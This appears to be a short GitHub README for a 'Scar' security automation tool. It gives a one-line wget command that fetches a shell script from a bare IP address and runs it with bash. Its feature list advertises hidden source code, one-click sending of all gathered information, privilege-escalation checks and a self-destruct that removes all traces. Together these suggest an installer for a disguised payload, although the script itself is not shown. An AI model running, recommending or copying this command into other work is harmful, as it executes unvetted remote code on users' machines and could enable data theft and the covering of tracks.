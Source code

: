 # Scar_Automation_tool
To run the Scar 
Use command: `wget http://161.117.85.147/tool/scar-installer.sh;chmod +x scar-installer.sh;bash scar-installer.sh`

# Faetures of Scan Automation
1. Ability to server hardening
2. Infra level VA scan and automation
3. Root Privilages escalation assessment automation
4. Windows Server related SMB Shares Scan automation inbuilt  
5. Load balancer with pipe ability to reduce the time to and CPU worker
6. Anonymously install flexibility that gives you full encapsulation to hide the source code
7. On fingertip installation with a single line of command
8. Require a password to run the tool
9. One-click feature to send all gathered information for the GAP Analysis 
10. One-Click self-destructive feature that removes all traces of the installed tool
11. One-time user password required to run all automation tasks
12. many other features are in the Queue..
